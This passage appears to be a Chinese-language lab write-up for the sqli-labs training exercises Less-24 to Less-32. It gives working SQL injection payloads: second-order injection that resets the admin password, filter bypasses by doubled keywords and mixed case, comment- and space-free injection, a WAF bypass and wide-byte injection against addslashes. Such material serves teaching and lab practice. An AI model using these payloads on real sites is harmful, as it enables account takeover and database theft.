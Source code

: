 ### Less-24 二次注入

映入眼帘的是一个注册/登陆页面

在注册用户内写入 `admin' -- -` ，此时的 SQL 语句如下，它自动注释掉了后面的限制语句，成功把 admin 的密码更改为 123  
`UPDATE users SET passwd="123" WHERE username =' admin' -- - ' AND password='`

之后使用 admin 以及密码 123 就可以成功登陆了！

<br>

### Less-25 过滤 or and

过滤？那咱们就双写 or 绕过就好了呀  
`http://sqli:10001/Less-25/?id=-1' oorr 1=1 -- -`

<br>

### Less-26 过滤注释空格

解题钥匙：`?id=1' ||'1`

此时构造完的语句是：`SELECT * FROM users WHERE id='1' || '1' LIMIT 0,1`  
显而易见，必定为真，爆数据

<br>

### Less-26a 过滤注释空格盲注

查看 php 的 SQL 语句可知：`SELECT * FROM users WHERE id=('$id') LIMIT 0,1`

构造闭合，查询数据库名称  
`?id=1') union select 1,database(),3 ||('1')=('1`

<br>

### Less-27 过滤 union select

大小写绕过  
`?id=0' uniOn sElEct 1,database(),3 or '1'='1 `

> 善用 `where 1=1` 可以起到关键效果

<br>

### Less-29 WAF 错误

WAF 定义：WAF 仅允许输入数字，他检测数字正确后才转发我们需要访问的页面；  
故需要伪造数字绕过 WAF

单引号绕过  
`?id=-1' union select 1,2,database() -- -`

<br>

### Less-32 引号转义

addslashes()函数可以对 SQL 语句中的每一个引号进行转义，即在引号前加上 `\`

宽字节注入：让 `\` 和前面的任意一个宽字节结合，构造一个实际不存在的字符，此时 `\` 后面的单引号就不会注释掉了

譬如下方 `%E6` 结合转义后的 `\`，即构成一不存在的字符  
`?id=-1%E6' union select 1,version(),database() -- -`

<br>

###
